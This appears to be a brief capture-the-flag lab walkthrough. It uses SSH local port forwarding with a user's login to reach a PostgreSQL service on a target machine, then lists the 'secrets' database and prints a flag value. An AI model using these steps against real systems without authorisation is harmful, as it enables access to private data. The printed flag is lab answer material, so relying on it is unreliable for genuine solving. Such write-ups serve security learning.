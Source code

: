 ### Command to create a port forward from our machine  to target machine.

In our target machine, there is a `psql` running but the machine doesn't have psql installed.

We will run a port forward using this command.

`ssh -L 1234:localhost:5432 christine@10.129.155.150`

and to verify, we will run `ss -tln`

We then run the `psql` from our machine to connect to the running psql at our target machine.

`psql -U christine -h localhost -p 1234`

Once we are connected we can use the `\l` command to list all the database (use this site for cheatsheet https://www.postgresqltutorial.com/postgresql-cheat-sheet/)

To choose the database use `\c secrets;` command

and to list all the tables inside the database, use `\dt`.

`secrets-# \dt
         List of relations
 Schema | Name | Type  |   Owner   
--------+------+-------+-----------
 public | flag | table | christine
(1 row)
`

Then to retreive the flag, we will use `SELECT * FROM flag;`

`
secrets=# select * FROM flag;
-[ RECORD 1 ]---------------------------
value | cf277664b1771217d7006acdea006db1
`


